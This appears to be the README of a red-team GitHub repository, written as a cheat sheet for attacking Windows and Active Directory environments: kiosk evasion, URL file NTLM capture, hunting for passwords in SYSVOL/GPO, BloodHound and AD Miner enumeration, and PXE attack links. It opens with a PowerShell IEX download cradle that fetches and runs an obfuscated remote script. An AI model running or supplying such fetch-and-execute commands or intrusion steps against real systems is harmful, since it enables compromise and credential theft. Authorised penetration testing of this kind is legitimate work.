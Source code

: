 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

---
### DIVERS
---
**Global Ressources :**
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

**Kiosk evasion** : file access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

**NTLM**
- https://www.scip.ch/en/?labs.20210909

<br/><br/>

---
### OSINT - PASSWORD
---

- https://haveibeenpwned.com/
- https://breachdirectory.org/

<br/><br/>

---
### AD
---
**SYSVOL acces without serveur name :**
```
\\mon-domaine.fr\sysvol
```
**Searching Password in GPO with explorer :**

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

<br/><br/>

---
### RECONNAISSANCE - ENUMERATION
---

**BloodHound :**
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

**ADMiner :**
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
<br/><br/>

---
### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
